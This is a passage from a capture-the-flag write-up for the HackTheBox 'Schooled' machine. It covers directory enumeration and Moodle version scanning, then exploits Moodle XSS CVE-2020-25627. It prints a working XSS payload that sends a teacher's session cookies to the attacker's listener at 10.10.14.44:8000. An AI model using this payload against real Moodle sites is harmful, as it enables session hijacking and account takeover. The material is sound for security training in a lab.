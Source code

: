 We fire up gobuster both on the root directory and under the `moodle` directory

```bash
gobuster dir -u http://moodle.schooled.htb/moodle/ -w /usr/share/wordl[0/8]dirbuster/directory-list-2.3-medium.txt -o gobuster-moodle.txt -t 40 -x php,db
```

>![]({{ page.dirImg }}/20210511-222419.png){: .shadow}

We have a bunch of files but after a closer analysis none of them seems very useful.

Instead, we find a tool for moodle enumeration: https://github.com/inc0d3/moodlescan.

We run it with `python3 moodlescan.py -k -u http://moodle.schooled.htb/moodle`.  
The -k option ignores the certificate

>![]({{ page.dirImg }}/20210514-181534.png){: .shadow}

Version number is 3.9-beta.  
We can check if there are known exploits for Moodle 3.9-beta. 

Many Moodle vulnerabilities can be found here: https://snyk.io/vuln/composer:moodle%2Fmoodle

There are a bunch of vulnerabilities for the 3.9. 

If we read the Math teacher's announcement carefully, we can clearly guess what is the kind of vulnerability that may be exploited.

>![]({{ page.dirImg }}/20210512-205801.png){: .shadow}


As guessable by the announcment, the teacher will visit the student's profile therefore suggesting an XSS vulnerability.

### PrivEsc from student role:  XSS - CVE-2020-25627


A high impact XSS vulnerability stands out for the unsufficient sanitization of the `moodlenetprofile` (also mentioned in the announement).


>![]({{ page.dirImg }}/20210518-212551.png){: .shadow}

>![]({{ page.dirImg }}/20210518-213703.png){: .shadow}

We first try to confirm the vulnerability

>![]({{ page.dirImg }}/20210518-232825.png){: .shadow}

and it works

>![]({{ page.dirImg }}/20210518-232850.png){: .shadow}


We know the teacher will visit our profile. So we can exploit this vulnerability and make the teacher kindly send his session cookies to us. 

This time our payload is: `<img src=x onerror=this.src='http://10.10.14.44:8000/?c='+document.cookie>`


We wait a bit and we get 

>![]({{ page.dirImg }}/20210518-235433.png){: .shadow}
